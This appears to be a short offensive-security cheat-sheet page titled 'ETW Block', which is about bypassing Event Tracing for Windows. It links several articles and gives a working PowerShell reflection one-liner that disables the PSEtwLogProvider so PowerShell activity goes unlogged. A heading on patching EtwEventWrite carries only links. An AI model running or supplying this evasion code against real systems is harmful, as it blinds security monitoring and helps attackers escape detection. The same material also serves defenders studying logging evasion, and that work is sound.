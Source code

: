 ```yaml
---
description: Bypass Event Tracing for Windows
---
```


# ETW Block

* ​[https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw](https://bmcder.com/blog/a-begginers-all-inclusive-guide-to-etw)​

### Disable PSEtwLogProvider <a href="#disable-psetwlogprovider" id="disable-psetwlogprovider"></a>

* ​[https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32](https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32)​

\[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m\_enabled','NonPublic,Instance').SetValue(\[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)

### Patch EtwEventWrite <a href="#patch-etweventwrite" id="patch-etweventwrite"></a>

* ​[https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/)​
* ​[https://github.com/Flangvik/NetLoader/blob/master/Source/Program.cs#L241-L258](https://github.com/Flangvik/NetLoader/blob/master/Source/Program.cs#L241-L258)
